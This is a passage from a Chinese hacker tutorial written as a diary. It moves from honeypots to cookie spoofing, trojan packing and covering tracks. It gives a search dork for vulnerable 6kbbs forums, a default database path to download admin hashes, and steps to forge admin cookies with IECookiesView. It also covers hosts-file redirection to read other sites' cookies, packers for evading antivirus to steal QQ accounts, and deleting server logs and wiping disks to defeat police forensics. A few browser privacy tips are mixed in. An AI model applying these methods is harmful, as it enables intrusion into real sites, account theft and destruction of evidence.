既然使用蜜罐能有那么多好处，那么大家都在自己家里做个蜜罐，岂不是能最大程度地防范黑客？有这个想法的读者请就此打住！逢蒙开始就是这么想的，但他告诉老师自己这个想法后才被老师告知：蜜罐虽然在一定程度上能帮管理员解决分析问题，但它并不是防火墙；相反地，它是个危险的入侵记录系统。蜜罐被狡猾的入侵者反利用来攻击别人的例子也屡见不鲜，只要管理员在某个设置上出现错误，蜜罐就成了打狗的肉包子。而一般家庭用户电脑水平不可能达到专业水平，让它们做蜜罐反而会引火烧身——蜜罐看似简单，实际却很复杂。虽然蜜罐要做好随时牺牲的准备，可是如果它到最后都没能记录到入侵数据，那么这台蜜罐根本就是纯粹等着挨宰的肉鸡了。所以一般很少有人会拿自己的机器来做蜜罐，如果他做了，那么只能说明两个问题：一是他的技术很高，二就是他可能是个极菜的菜鸟。所以一般都是在自己占领过的服务器上搭建蜜罐，这样即使失去了，也不感到可惜。这个就是我们占领肉鸡后服务器利用的一个方面。所以，我们必须了解蜜罐，必须知其然，且必须知其所以然！

知道了这些，大家一定都焦急得不得了，等着自己搭建个蜜罐了。其实搭建起来很简单，但一定要记住，必须是在服务器上，你在网吧里是根本不可能搭建你的蜜罐的。关于搭建办法网上很多，这里就简要地介绍一种。如果你有自己的肉鸡，那么就赶紧去搭建个蜜罐来玩玩吧。如果是自己的机器，就轻易不要实验了！


图32-1

这里我在本机安装一下，安装过程见图32-1和图32-2。一路下一步，安装成功。马上来实际测试一下。主界面见图32-3。


图32-2


图32-3

“选项”里面有一个“开机自动运行”，根据你的需要点取。在“服务器类别”里则有三个选项，分别是启动 IIS 服务器、启动 Apache 服务器、启动 EasyPHP 服务器，就是说这款软件可以模拟上述三种服务器。怎么样？强大得很吧？后羿就在自己的服务器里搭建了这个蜜罐。

在主界面，我们可以看到有“开始监听”“停止监听”的按钮。当然了，在正常情况下，我们肯定是点“开始监听”的，因为不监听的话你安它做什么啊？下面有是否自动保存日志的选项。

## 蜜罐原理

Trap Server 模拟的 IIS、Apache 和 EasyPHP 都是 WEB 服务器，所以都是 80 端口。主页路径默认的是安装 Trap Server 目录下面的 WEB 文件夹，如果选择模拟 IIS 服务器，就是在 IIS 子文件夹下面，其它的也一样，当然你可以自己另外设定别的目录。它主页的路径不能修改，你可以把你自己做的主页放到文件夹里面，这样这款蜜罐就可以作为 WEB 服务器用了。它默认监听的是 80 端口，不过你也可以自己修改，比如你只是想做测试用，而你的计算机装了 IIS，占用了 80，那么你完全可以选择一个没有被占用的端口，比如 7626 之类的。

打开浏览器输入你服务器的 IP，访问你用 Trap Server 模拟的 WEB 服务。在出现内容的同时，我们也发现在 Trap Server 主界面的左下闪动了一下，增加了几行记录！分离一些重复的，剩下的记录是这样的：

```
----------------------------------------------
<2006-2-11> <16:22:06> Listening for HTTP connections on 0.0.0.0:80.
User logged in
<2006-2-11> <16:23:35> Command GET / received from 185.145.1.9:2943
Serving file C:\Program Files\虚拟服务器软件\Web\iis\index.htm. (5628 bytes
/ 4628 bytes sent) to 185.145.1.9:2943
User logged out
----------------------------------------------
```

我们看到第一行是说在某天某时，Trap Server 开始侦听服务器的 80 端口。接下来有行为发生，比如有帐号登录服务器，发送了一个命令，行为是 GET，后面是该帐号的 IP 地址和使用的端口。再下面的一行就是这个命令获取的文件，是 IIS 目录下面的 Index.htm 文件，发送了 5628 个字节给来自这个地址的 GET 请求，完成之后用户退出。很多朋友都习惯使用手工的方法去判断系统版本，最常用的就是直接 Telnet 它的 80 端口。如果我们 Telnet 到服务器的 80 端口会有什么情况呢？执行：Telnet 185.145.1.9 80，然后 GET 并回车，我在日志里面得到如下内容：

```
User logged in
User logged out
```

为什么会这样呢？因为我们只是 Telnet 到服务器，没有获取任何文件的动作。如果执行下列命令：Telnet 185.145.1.9 80，然后“摸黑”输入“get index.htm”，则会有下列日志：

```
----------------------------------------------
User logged in
<2006-2-11> <16:26:15> Command GET / received from 185.145.1.9:2966
Serving file C:\Program Files\虚拟服务器软件\Web\iis\index.htm (4628 bytes
/ 4628 bytes sent) to 185.145.1.9:2966
User logged out
----------------------------------------------
```

看到了吗？我们输入了获取 Index.htm 文件的命令，程序里就多了一些内容了……不难看懂吧？呵呵。

在跟踪入侵者这里，上面的一行是自动变化的，下面的是跟踪对象。下面的“最大值”是设置跟踪路由的跃点，比如设置成30就可以跟踪30路由（图32-4）。


图32-4

> **作者小行友情提醒：**  
> 各位读者如果哪天一不小心就成功地入侵了一台服务器，先不要急着高兴，先要确定下，自己是不是进了别人的蜜罐，被别人当猴耍了啊？？

## 日记三十二（下篇）：深刻地了解蜜罐

上古二〇〇三十八年 10月1日 星期九 小雨

只有深刻地了解服务器及安全技术，我们才能避免自己的机器成为别人的肉鸡，避免出现别人都在自己的机器上搭建了蜜罐了，而我们还傻傻不知道。就是俗话所说的：被人卖了，还在帮别人数钱呢！

装有蜜罐的计算机和一台没有任何防范措施的计算机究竟有什么根本区别呢？虽然这两者都有可能被入侵破坏，但是本质却完全不同。蜜罐是网络管理员经过周密布置而设下的“黑匣子”，看似漏洞百出却尽在掌握之中，收集的入侵数据十分有价值；而后者根本就是送给入侵者的礼物，即使被入侵也不一定查得到痕迹。设计蜜罐的初衷就是让黑客入侵，借此收集证据，同时隐藏真实的服务器地址，因此我们要求一台合格的蜜罐拥有这些功能：发现攻击、产生警告、强大的记录能力、欺骗、协助调查。另外一个功能由管理员去完成，那就是在必要时候根据蜜罐收集的证据来起诉入侵者。所以说蜜罐不只是攻击者占领肉鸡后做着玩的，更主要的用途是防范者用来搭建进而防范入侵者的一个合理的取证途径！

如同前面讲的，不能随便搭建自己的蜜罐，因为那样是非常不安全的。

但是作为系统管理员等防护人员，而技术也十分高超，是不是就可以随便搭建个蜜罐来引“鱼”上钩了呢？回答仍然是否定的，不可以，因为这个还涉及一个法律问题。我们知道，要引诱他们入侵，你的机器必须开一定的漏洞，就像没蜂蜜，熊儿不会来吃一样。但是我们也知道，很多漏洞都属于“高危”级别，稍有不慎就会导致系统被渗透。一旦蜜罐被破坏，入侵者要做的事情是管理员无法预料的。例如，一个入侵者成功进入了一台蜜罐，并且用它做“跳板”（指入侵者远程控制一台或多台被入侵的计算机对别的计算机进行入侵的行为）去攻击别人，那么这个损失由谁来负责？设置一台蜜罐必须面对三个问题：设陷技术、隐私、责任。

设陷技术关系到设置这台蜜罐的管理员技术，一台设置不周全或者隐蔽性不够的蜜罐会被入侵者轻易识破或者破坏，由此导致的后果将十分严重。此外由于蜜罐属于记录设备，所以它有可能会牵涉到隐私权问题。如果一个企业的管理员恶意设计一台蜜罐用于收集公司员工的活动数据，或者偷偷拦截记录公司网络通讯信息，这样的蜜罐就已经涉及法律问题了。

作为一个系统管理员，如果你的技术足够高超，足以应付各个大大小小的安全问题，那么搭建蜜罐来搜集入侵者信息是十分有必要的。那么一般要怎么样下钩呢？

- 1. 在客户/服务器模式里嵌入蜜罐，让蜜罐作为服务器角色，真正的网站服务器作为一个内部网络，在蜜罐上做网络端口映射，这样可以把网站的安全系数提高。入侵者即使渗透了位于外部的“服务器”，他也得不到任何有价值的资料，因为他入侵的是蜜罐而已。  
理由：因为一般的客户/服务器模式里，浏览者是直接与网站服务器连接的。换句话说，整个网站服务器都暴露在入侵者面前，如果服务器安全措施不够，那么整个网站数据都有可能被入侵者轻易毁灭。但是搭建了蜜罐后，如果入侵者可以在蜜罐的基础上跳进内部网络，那要比直接攻下一台外部服务器复杂得多，许多水平不足的入侵者只能望而却步。蜜罐也许会被破坏，可是不要忘记了，蜜罐本来就是被破坏的角色。在这种用途上，蜜罐不能再设计得漏洞百出了。蜜罐既然成了内部服务器的保护层，就必须要求它自身足够坚固，否则，整个网站都要拱手送人了。

- 2. 尽量将蜜罐设置得与内部网络服务器一模一样，等于先给入侵者设置了一道岗。  
理由：这样一来，当一个入侵者费尽力气入侵了这台蜜罐的时候，管理员已经收集到足够的攻击数据来加固真实的服务器。这样下次入侵者再入侵的时候就势比登天。

- 3. 故意设置一些有不明显漏洞的蜜罐，为抓捕网络罪犯搜集证据。  
理由：入侵者很大一部分都是惊弓之鸟，如果你设置了明显的漏洞后，即使不是你搭建的蜜罐，他们也会以为是你搭建的蜜罐，从而提高更大的警惕。到头来，自己服务器被搞了，连对方 IP 都不知道是哪个。

## 黑客日记

# 第六章：Cookies攻击

| 章节 | 页码 |
|---|---|
| 日记三十三：Cookies基础知识介绍 | 81 |
| 日记三十四：Cookies解析 | 82 |
| 日记三十五：又成功了 | 87 |
| 日记三十六：用基础知识进行Cookies欺骗 | 88 |
| 日记三十七：我要养马 | 91 |

## 回忆黑客手记：Cookies基础知识介绍

上古三国三十八年 9月25日 星期六 阴转晴

一次又一次的进攻，总结经验后我发现，自己靠技术，没有一次成功地战过后羿那小子的。而自己唯一的一次成功还是利用社会工程学成功的。社会工程学又叫忽悠学，既然这种类型的攻击这么管用，那为什么不再多研究研究类似的还有什么呢？所以就有了今天的COOKIES欺骗这篇日记！

在网络词汇中，Cookie是一个特殊的信息，虽然只是服务器存于用户计算机上的一个文本文档，但由于其内容的不寻常性（与服务器有一定的互动性，且常会存储用户名，甚至口令，或是其它一些敏感信息，例如在江湖或是一些社区中，常会用Cookie来保存用户积分、等级等等），因而成为一些高手关注的对象，借此来取得特殊权限，甚至攻克整个网站。

> **来只恶补：** Cookies是一个储存于浏览器目录中的文本文档，记录你访问一个特定站点的信息，且只能被创建这个Cookies的站点读回，约由255个字符组成，仅占4KB硬盘空间。当用户正在浏览某站点时，它储存于用户机的随机存取存储器RAM中，退出浏览器后，它储存于用户的硬盘中。储存在Cookies中的大部分信息是普通的，如当你浏览一个站点时，此文件记录了每一次的去往信息和被访站点的地址等。但是许多Web站点使用Cookies来储存针对私人的数据，如：注册口令、用户名、信用卡编号等。

cookies欺骗，通俗地说就是在只对用户做cookies验证的系统中，通过修改cookies的内容来得到相应的用户权限记录。

Cookies有什么作用呢？Cookies是一种能够让网站服务器把少量数据储存到客户端的硬盘或内存，或是从客户端的硬盘读取数据的一种技术。Cookies是当你浏览某网站时，由Web服务器置于你硬盘上的一个非常小的文本文件，它可以记录你的用户ID、密码、浏览过的网页、停留的时间等信息。当你再次来到该网站时，网站通过读取Cookies，得知你的相关信息，就可以做出相应的动作，如在页面显示欢迎你的标语，或者让你不用输入ID、密码就直接登录等等。从本质上讲，它可以看作是你的身份证。但Cookies不能作为代码执行，也不会传送病毒，且为你所专有，并只能由提供它的服务器来读取。保存的信息片断以“名/值”对（name-value pairs）的形式储存，一个“名/值”对仅仅是一条命名的数据。一个网站只能取得它放在你的电脑中的信息，它无法从其它的Cookies文件中取得信息，也无法得到你的电脑上的其它任何东西。Cookies中的内容大多数经过了加密处理，因此一般用户看来只是一些毫无意义的字母数字组合，只有服务器的CGI处理程序才知道它们真正的含义。

## 第六章：Cookies 攻击

按照浏览器的约定，只有来自同一域名的Cookie才可以读写，而Cookie只是浏览器的，对通讯协议无影响，所以要进行Cookie欺骗可以有多种途径：

- 1. 跳过浏览器，直接对通讯数据改写。
- 2. 修改浏览器，让浏览器从本地可以读写任意域名Cookie。
- 3. 使用签名脚本，让浏览器从本地可以读写任意域名Cookie（有安全问题）。
- 4. 欺骗浏览器，让浏览器获得假的域名。

其中：

方法1、2需要较专业的编程知识，对普通用户不太合适。方法3的实现有2种方法：

- 1. 直接使用签名脚本，不需要签名验证，但是会产生很严重的安全问题，因为大家都要上网的，如果这样做你的硬盘文件就……
- 2. 对脚本进行签名后再使用签名脚本，但是需要专用的数字签名工具，对普通用户也不合适。方法4看样子应该是最合适的了，域名欺骗很简单，也不需要什么工具（当然如果你的机器装有Web服务器那更好了）。

> 注：我今天学习的Cookie是那种不会在硬盘的Cookie文件里留下痕迹的Cookie，就是那种只在浏览器生存周期内（会话）产生的Cookie。如果浏览器关闭（会话结束），那么这个Cookie就被删了！

## 日记二十四：Cookies 解析

二○○三年八月 9月29日 星期二 阴但无云

任何公共场合的电脑或者许多在办公室或家里使用的电脑，都会同时被两个以上的人使用。这样，当你用它在网上超市购物时，网上超市或网站会在这台机器上留下一个Cookie，将来也许就会有某个人试图使用你的账户购物，带来了不安全的可能。当然，在一些使用多用户操作系统如Windows NT或UNIX的电脑上，这并不会成为一个问题。因为在多用户操作系统下不同的账户的Cookie分别放在不同的地方。

Cookies被删除时，假如你的浏览器不能正常工作，你可能会删除电脑上所有的临时Internet文件。然而，一旦这样操作以后，你就会丢掉所有的Cookies文件。当你再次访问一个网站时，网站会认为你是一位新用户并分配给你一个新的用户ID以及一个新的Cookie。结果将会造成网站统计的新老用户比发生偏差，而你也难以恢复过去保存的参数选择。

而有的人一天之中经常使用一台以上的电脑。例如在办公室里有一台电脑，家里有一台，还有移动办公用的笔记本电脑。除非网站使用了特别的技术来解决这一问题，否则，你将会有三个不同的Cookies文件在这三台机器上，而在三台机器上访问过的任何网站都会把你看成三个不同的用户。

防范Cookies泄密。想知道你访问的网站是否在你的硬盘或内存中写入了Cookies信息吗？只需执行下面的操作步骤，就可以了解和控制你正在访问的网站的Cookies信息。

## §34 查看自己的 Cookies 信息

- 1. 点击IE窗口中的“工具”→“Internet选项”，打开“Internet选项”设置窗口；（图34-1）
- 2. 点击“Internet选项”设置窗口中的“安全”标签，然后再点击“自定义级别”按钮，进入“安全设置”窗口；（图34-2）

图34-1

图34-2

步骤三：找到“安全设置”窗口中的“Cookies”设置项。“Cookies”设置项下有两个分选项，其中“允许使用存储在您计算机上的Cookies”是针对存储在用户计算机硬盘中的Cookies文件；“允许使用每个对话Cookies（未存储）”是针对存储在用户计算机内存中的Cookies信息。

存储在硬盘中的Cookies文件是永久存在的，而存储在内存中的Cookies信息是临时的。要想IE在即将接收来自Web站点的所有Cookies时进行提示，可分别选择上面两个分选项中的“提示”项。

你也可以选择“启用”，允许IE接受所有的Cookies信息（这也是IE的默认选项）；选择“禁止”，则是不允许Web站点将Cookies存储到您的计算机上，而且Web站点也不能读取你计算机中已有的Cookies。

图34-3

COOKIES欺骗工具，可以对网站的COOKIES进行任意修改，达到提升权限的目的（比如动网论坛）。说到cookies欺骗修改工具，我们就不能不提下它的代表软件iecv。iecv可以说是cookies欺骗工具的掌门软件。下载解压到桌面，我们来看下它的庐山真面目是什么样子的！也许有的菜鸟很不解地问道，这个东西乱糟糟的是做什么的啊？哈哈，其实吧，这个软件可是用处多多啊！修改cookies啊！比如原来的leadbbs可以直接修改为管理员的。怎么样？是不是够狠的啊！哈哈！

> **IECookiesView小档案：**
>
> 软件大小：38KB  
> 软件类型：绿色免费软件  
> 第一步：下载该软件后解压缩。  
> 第二步：该软件是绿色的，不用安装，只有一个主程序——iecv.exe。运行该程序启动软件，软件会自动扫描驻留在本地计算机IE浏览器中的cookies文件。（图34-3）

图34-4

第三步：我们随便选中一个cookies后就可以从下面的内容显示区域看到它的地址、参数以及过期时间等信息了。如果是一个红色的叉叉，则说明该cookies已经过期，无法使用；如果是一个绿色的对勾说明该cookies还可以使用。（图34-4）

第四步：找到一个有效的cookies文件后双击打开属性窗口，在这里我们可以看到该cookies的名称和参数（图34-5）。

图34-5

> **菜鸟恶补：** 对于有一定水平的网管管理员还可以通过编辑cookies文件来实现对有效期限的突破。方法是在软件下方窗口显示的cookies文件上点鼠标右键，选择“edit the cookie's content”（图34-6）

图34-6

第五步：如果你对于某个站点非常反感，不希望计算机下载该站点对应的cookies文件的话，可以将该站点所有cookies删除。方法是在软件上方窗口处将某个站点的cookies选中，然后点鼠标右键选择“delete selected cookies files”即可，当然直接点菜单上的红色叉子也是一样的。（图34-7）

图34-7

图34-8

## 日记三十五：又成功了

总之该工具有很多功能，例如管理cookies文件，编辑cookies文件，还可以轻松完成对已有cookies文件的导出导入。逢蒙还在研究怎么欺骗老师，这里就不再仔细说了啊！

老兵写得非常不错！可以自定义COOKIE，这是一个特殊用途的浏览器，当浏览一个页面时，如果有cookies和session存在的话会自动获取。同时，可以对获取的COOKIES重新修改提交。这里我随便访问了一个站点（图34-8）。

大家可以看到，是不是很方便的啊？和IE浏览器相比它真的是太方便了。所以很多人把它叫作黑客浏览器也不为过！

最近学了这个，就多方出击，最终发现了后羿那小子他们公司的一个电力培训的站点就是6KBBS的。搞不清楚为什么还不升级。不知道为什么他们公司负责网络的这些人管理得为什么这么松散？怪不得他们请后羿，原来还真的是不屑一击的小破地方。试了下默认的数据库位置，竟然意外地进去了！他的数据库在 `http://www.***.com/bbs/db/#lsrenmusic.mdb`。弹出提示是不是下载？废话，不下载做这个干什么！（图35-1）

> 小结：其实经过科学的测试，发现用这个论坛的人至少有60%以上是不改默认数据库路径的，真的不知道为什么。

大家如果想边看边练习的话，就去搜索引擎搜索关键字“powered by ‘6kbbs’”，然后你就会看到一大批6kbbs的网站了。首先，我们先去注册一个用户，然后登录，看到了吗？有个cookies保存的选项，一定要选哦（图35-2）。

逢蒙选择是保存一个月，因为保存了才会在你本机上写进它的cookies。接着，打开数据库，看admin表里面有什么东西，别的不管，你只要那个bd为12的那个人就行了，有可能没有，没关系，你到他们论坛去逛一下，看管理员是谁，然后在数据库里面拿他的账号和加密的密码来欺骗。

## 黑客实战

打开IECookiesView，这款软件是拿来查看和修改本机的cookies，很方便我们的cookies欺骗入侵，前面我们说过。

在IECookiesView里找到你要欺骗的那个论坛，选中目标，然后我们选中Key页面下的aspsky，选中右键菜单中弹出的“Edit the cookie's content”，接下来我们只要修改它的value值就行了，管理员的用户名和MD5加密的密码我们已经得到，再用同样的方法得到其中的userid、usercookies和userclass，而userhidden改不改都没什么关系，不理它就是了。不过一般来说admin的userid都是1，而userclass肯定是管理员喽。

全部修改好之后，点“Modify Cookies”之后，出现一个确认框，选“是”就行了。然后关掉原来的IE，再开一个IE进入原来的论坛。现在已经是管理员了！

> 在进行修改前最好把其它的IE都给关了，只留一个要进行cookies值欺骗的IE就可以了，要不然是很难cookies值欺骗成功的！

## 回忆与实战：用基础知识进行 Cookies 欺骗

正常情况下，我们要浏览一个网站时输入的URL便是它的域名，需要经过域名管理系统DNS将其转化为IP地址后进行连接。若能在DNS上进行一些设置，把目标域名的IP地址对应到其它站点上，我们便可以非法访问目标站点的Cookie了。要进行Cookies欺骗，其实很简单。比如在Win9X下的安装目录下，有一名为hosts.sam的文件，以文本方式打开后会看到这样的格式：127.0.0.1 localhost，经过设置，便可以实现域名解析的本地化，只需将IP和域名依上面的格式添加到文件中并另存为hosts即可。hosts文件实际上可以看成一个本机的DNS系统，它可以负责把域名解释成IP地址，它的优先权比DNS服务器要高，它的具体实现是TCP/IP协议中的一部分。比如我们要读取的目标站点www.abc.com所生成的Cookies信息，可以借助www.def.com（自己的站点）。www.def.com存放用来进行欺骗所需的文件，通过它读取和修改对方的Cookie。

## 窥探自己上网

步骤一：ping www.def.com 的IP地址：  
ping www.def.com  
Reply from 192.168.0.1: bytes=32 time=20ms TTL=244  
然后修改hosts.sam文件如下：  
192.168.0.1 www.abc.com  
并保存为hosts文件。

步骤二：读取Cookies信息：  
将用来读取Cookie的页面传至www.def.com，此时连接www.abc.com，由于我们进行本机DNS域名解析的修改，这时网络连接的并不是www.abc.com，而是www.def.com，这时www.abc.com设在本地的Cookie便可被读出。

步骤三：同样道理，你可对读出的数据进行修改，并可将修改后的信息写入Cookie中。修改完毕后，删掉hosts文件，再重新进www.abc.com，此时所使用的Cookies数据就是你制定的数据。

> 任我小结友情提醒：怎么样？看着很难，其实很简单。而且用好了，威力无穷啊！

cookies文件是在无声无息中伴随浏览器进入我们本地硬盘的，当我们浏览某个站点时，该站点很可能将记录我们隐私的cookies文件上传到本地硬盘。那么我们如何防范阻止cookies文件泄露我们的隐私呢？实际上我们可以通过浏览器设置不容许计算机接收cookies文件即可。方法如下：

- 1. 第一步：进入系统打开IE浏览器。
- 2. 第二步：通过菜单栏中的“工具->Internet选项”打开Internet设置窗口。（图36-1）
- 3. 第三步：找到“隐私”标签，将设置的滑动按钮调节到最高，这样将阻止来自所有网站的cookie，而且计算机上的现有cookie文件都将不能被网站读取。（图36-2）

如果只是为了禁止个别网站的Cookie，可以单击“编辑”按钮。（图36-3）

将要屏蔽的网站添加到列表中。在“高级”按钮选项中，你可以对第一方Cookie和第三方的Cookie进行设置，第一方Cookie是你正在浏览的网站的Cookie，第三方Cookie是非正在浏览的网站发给你的Cookie，通常要对第三方Cookie选择“拒绝”。你如果需要保存Cookie，可以使用IE的“导入导出”功能，打开“文件/导入导出”，按提示操作即可。你可以在IE的“工具/Internet选项”的“常规”选项卡中，选择“设置/查看文件”，查看所有保存到你电脑里的Cookies（图36-4），然后进行操作。

图36-3

图36-4

第四步：确定后我们完成设置，任何站点都不会将cookie文件强制塞入我们的计算机。我们的隐私也不会再泄露了。

总之，在某种程度上虽然可以实现Cookies的欺骗，给网络应用带来不安全的因素，但Cookies文件本身并不会造成用户隐私的泄露，也不会给黑客提供木马程序的载体，只要合理使用，它们会给网站管理员进行网站的维护和管理以及广大用户的使用都带来便利！

另外，由于Cookies的信息并不都是以文件形式存放在计算机里，还有部分信息保存在内存里。比如你在浏览网站的时候，Web服务器会自动在内存中生成Cookie，当你关闭IE浏览器的时候又自动把Cookie删除，那样上面常规的方法就起不了作用，我们需要借助注册表编辑器来修改系统设置。要注意的是，修改注册表前请作备份，以便出现问题后能顺利恢复。

```
运行 Regedit，找到如下键值：

HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Internet Settings/Cache/Special Paths/Cookies
```

这是Cookies在内存中的键值，把这个键值删除。至此Cookies无论以什么形式存在，我们都不用再害怕了。

最后有必要说明的一点是：杜绝Cookies虽然可以增强你电脑的信息安全程度，但这样做同样会有一些弊端。

比如在一些需要Cookies支持的网页上，会发生一些莫名其妙的错误，典型的例子就是你以后不能使用某些网站的免费信箱了。

## 第七章：我要养马

上古五百四十五年 9月2日 星期一 天气很好

我早就想养几匹木马了，因为以前听几位老师说QQ这个东西很好玩，而作为一个凡人，自己以前根本就没机会去接近这个东西。虽然以前学本领的时候很多已经成了仙的都叫我逢蒙将军，其实那都是看着如来佛祖的面子。如果没有如来佛祖事先给我的通融，他们才不认识我是谁呢！而自己第一次知道QQ还是从孙武那里得知的。看着那些个神仙一个个神气的样子，心里就有气，不就是比我早知道这个东西吗？有个好点的QQ号有什么了不起啊！别看我接触得晚，但是我可以盗几个好号来玩。找了个木马后，凭着自己的三寸不烂之舌，成功地钓上了几个“鱼”儿。自己也知道他们的确也上钩了。但当我乐呵呵地去信箱摘取胜利果实时，才发现信箱里仍是空空的。该来的没有到。难道真的是自己的RP有问题？也不可能啊！因为浪子回头金不换啊！再说我对付后羿是报仇，是很正义的啊！那么是什么原因呢？最后查来查去才知道，原来“鱼”儿的机器都有“狗”（杀毒软件）在看护着！有效地使自己的木马不被查杀呢？并且使我们的木马能轻松绕过杀毒软件的监视而达到自己的目的呢？方法很多，但都不外乎几种，比如给木马加壳、变种，还有改识别码。但是最普通最常见的也就是给木马加壳了。当然也有的木马是天生做出来就是加着壳的，这个时候就需要你给它脱壳了。加壳或脱壳可以成功地躲过杀毒软件查杀。改识别码的办法比较麻烦，就不给小菜们介绍了！

## 仙剑 + 北斗 + 冰风 + 铁甲（大点兵）

首先我们以热烈的掌声请来仙剑（图37-1）。

它只可以加壳，不能脱壳，使用很简单，选择文件，找到你要加壳的木马或者你要作案的软件，而这个软件一般的时候还会被杀毒软件查杀。选完后，点加密，提示成功（图37-2）。


接下来是传说中的北斗（图37-3）。


找到你要压缩的文件，其实就是给你的木马包个外衣，点击压缩（图37-4）。

然后就成功了。再就是冰风，其实是兵枫啊！（图37-5）。

选中要加密的文件，然后按照提示，设置密码，就可以了！

最后一个是铁甲（见图37-6）。使用起来一个道理，没什么可介绍的！关于具体的加壳、脱壳大家可以去看《黑客手册》的《精通破解工具》一书！


图37-5


图37-6

## 黑客日记

## 第七章：清除痕迹与给入侵掩盖战场

| 章节 | 页码 |
|---|---|
| 日记三十八：清除入侵痕迹 | 95 |
| 日记三十九：清除入侵日志记录 | 97 |
| 日记四十：擦PP | 99 |
| 日记四十一：如何抵制黑客入侵！ | 100 |

## 日记三十八：清除入侵痕迹

上古五百万年 98年3月3日 星期二 半边天阴

入侵了服务器后，不要先忙着高兴。要学会掩盖入侵痕迹，擦掉与入侵有关的方方面面，否则即使你成功了，可能几天后你就会被警察GG带到局子里去了，那个时候你再后悔就彻底没用了！在平时上网的时候，我们也会不经意间在机器上留下一些个人隐私，特别是公共场合的电脑，只要一些别有用心的人稍加手段，我们的个人隐私就会在别人面前暴露无遗，同时这些隐私也可能会成为被他人攻击的目标。所以学会清除痕迹是十分重要的。下面就说两个清除的办法！

## 机器清除

右键单击“开始”，选择“属性”打开“开始菜单”标签，点“自定义”按钮，再找到“清除”一项，可以清除历史文档信息；

右键单击“IE”，选择“属性”，在“常规”标签下点“删除文件”和“删除Cookies”，再转至“内容”标签，点击“自动完成”，在对话框中单击“清除表单”和“清除密码”，可以清除一些上网痕迹；

如果你是用腾讯TT或MX类似的浏览器，点工具栏上的“清除记录”，选中全部，打勾，点确定，即可删除上网痕迹。当然，还有很多方法可以清理，包括修改注册表删除，有时间广大读者可以试试（Windows XP）。

## 通过工具软件清除上网痕迹

我们在用IE浏览器上网冲浪的时候，就会在地址栏里留下一些浏览过的地址，网站注册时的一些个人信息，还有搜索过的关键词等，所有这些我们都可以通过上网助手2005来轻松地清除掉。点击“上网助手—上网痕迹—全面清理”，就会弹出“全面清理”对话框（图38-1）。


图38-1

# 第七章：清除痕迹——给入侵掩盖战场

在这里不但可以清除上网痕迹、Windows使用痕迹，还可以清除电脑应用程序的使用痕迹。另外点击“上网助手—上网痕迹—IE地址栏清理”可以有选择地清理掉IE地址栏中浏览过的网址（图38-2）。除了上网助手外，百度搜霸、Google Toolbar等工具软件也都可以清除上网痕迹，它们的使用方法差不多，在这里就不详细介绍了。


图38-2

## 脚本清除

清除IE临时文件：为了加快访问速度，IE会将曾经浏览过的网页等内容存放在Temporary Internet Files文件夹中。如果我们不希望他人从这里窥视自己的秘密，可以利用关机脚本让系统自动在关机前进行清理，这里介绍一下具体的操作（以Windows XP为例）。

```
DEL /Q /S "C:\Documents and Settings\<用户名>\Local Settings\Temporary Internet Files"
```

在“C:\Windows\System32\GroupPolicy\Machine\Scripts\Shutdown”目录下，新建一个批处理文件Cleanup.bat，内容可根据需要编写。清除IE临时文件的命令为上式。其中参数/Q表示使用安静模式，即删除全局通配符时不要确认；参数/S表示从所有子目录删除文件。

单击“开始”——“运行”，在运行命令框中输入“Gpedit.msc”，打开组策略窗口。在左侧的控制台树窗格中，依次展开“计算机配置”——“Windows设置”——“脚本（启动/关机）”节点，双击右侧详细资料窗格中的“关机”项目，在弹出的“关机属性”对话框中点击“添加”按钮，将Cleanup.bat添加为新的计算机关机脚本。设置完成后，退出组策略窗口，重新启动计算机即可。

## 清除IE历史记录

清除IE历史记录通常的方法是“Internet选项”——“常规”——“清除历史记录”。不过，我们同样可以利用关机脚本来实现自动清理。

批处理文件中添加一条命令“DEL/Q/S "C:\Documents and Settings\<用户名>\Local Settings\History"”即可。

## 清除IE地址栏记录

前面清除的IE历史记录还不够彻底，当我们在IE地址栏中输入与曾经输入过的URL一样的字符串时，仍会显示出相关的网址记录。要想清除这些记录，则必须将注册表[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs]分支下的键值全部删除。

用记事本创建一个脚本文件，脚本内容如下：

```
Dim WSHShell
Set WSHShell = WScript.CreateObject("WScript.Shell")
WSHShell.RegWrite "HKCU\Software\Microsoft\Internet Explorer\TypedURLs\\", ""
WSHShell.RegDelete "HKCU\Software\Microsoft\Internet Explorer\TypedURLs\"
```

上述脚本共有四句：第一句定义一个变量WSHShell，第二句创建一个对象，第三句写入注册表，如果注册表中不存在该项，执行脚本时会出现错误提示。输入以上内容后将其保存为Cleanup.vbs。注意，后缀名一定要是vbs，这样才能保证脚本的正常执行。编写完成后，在组策略窗口中依次展开“用户配置”“Windows设置”“脚本（登录/注销）”节点，双击右侧窗格中的“注销”项目，在弹出的“注销属性”对话框中点击“添加”按钮，将Cleanup.vbs添加为注销脚本。这样，当计算机注销或关机时就会自动清除IE地址栏记录。

## 日记三十九：清除入侵日志记录

入侵了服务器以后不能留下任何的蛛丝马迹，还必须要学会隐藏自己，所以我们不能不说下如何清除日志记录。这个东西如果被服务器管理员看到了，那么我们的一些信息就会暴露，然后人家按图索骥，照样把你送到局子里去啊！

## 清除肉鸡日志：

大家都知道进行入侵完事之后都会在肉鸡上进行清除日志的工作，无外乎：Win是：

DNS日志默认位置：%systemroot%\system32\config，默认文件大小512KB，管理员都会改变这个默认大小。

- 安全日志文件：%systemroot%\system32\config\SecEvent.EVT
- 系统日志文件：%systemroot%\system32\config\SysEvent.EVT
- 应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT
- FTP日志默认位置：%systemroot%\system32\logfiles\msftpsvc1\，默认每天一个
- WWW日志默认位置：%systemroot%\system32\logfiles\w3svc1\，默认每天一个日志

以上日志在注册表里的键：应用程序日志、安全日志、系统日志、DNS服务器日志，它们这些LOG文件在注册表中的：

HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Eventlog

而Linux日志是：/etc/syslog.conf——记录了各种日志的绝对路径。

相信以上知识大家有所了解，但是奇怪的是很多人在清除日志之后仍然被抓，我们都很奇怪证据哪里来？

原来是网警使用了文件恢复软件：1.finaldata；2.Easy Recovery。大家有兴趣可以去研究研究啊！因为知道了他们的恢复道理，我们才能更好地入侵服务器啊！这两个软件可以恢复没有被覆盖的所有被删除的文件。所以清除肉鸡日志的最好方法是使用硬盘粉碎机清除文件日志和自己机器的证据，当然也可以在删除日志后在硬盘进行1次“磁盘碎片整理”，就看你的个人喜好了。

## 命令清除肉鸡日志方法：

